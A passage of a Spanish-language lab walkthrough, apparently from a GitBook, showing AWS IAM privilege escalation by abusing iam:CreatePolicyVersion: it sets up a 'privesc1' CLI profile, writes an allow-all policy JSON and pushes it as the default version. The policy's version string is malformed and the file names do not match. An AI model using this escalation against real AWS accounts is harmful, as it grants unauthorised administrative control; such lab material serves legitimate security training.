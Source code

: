<figure><img src="../../../.gitbook/assets/image (23).png" alt=""><figcaption><p>Configuración del usuario privesc1 en AWS CLI</p></figcaption></figure>

Checar que la configuración esté correcta con:

```
aws sts get-caller-identity --profile privesc1
```

<figure><img src="../../../.gitbook/assets/image (30) (1).png" alt=""><figcaption></figcaption></figure>

### Explotación

En este tipo de explotación, se tiene que crear un archivo **JSON** con las políticas que se quieren agregar. Por ejemplo la política de permitir todo:

{% code title="admin_policy.json" overflow="wrap" %}
```json
{
    "Version": "202-03-12",
    "Statement": [
        {
            "Sid": "PermitirTodo",
            "Effect": "Allow",
            "Action": "*",
            "Resource": "*"
        }
    ]
}
```
{% endcode %}

Despues, subir el archivo con el el uso de la política IAM:CreatePolicyVersion

{% code overflow="wrap" %}
```
aws iam create-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc1- CreateNewPolicyVersion --policy-document file://admin_politica.json --set-as-default --profile privesc1
```
{% endcode %}
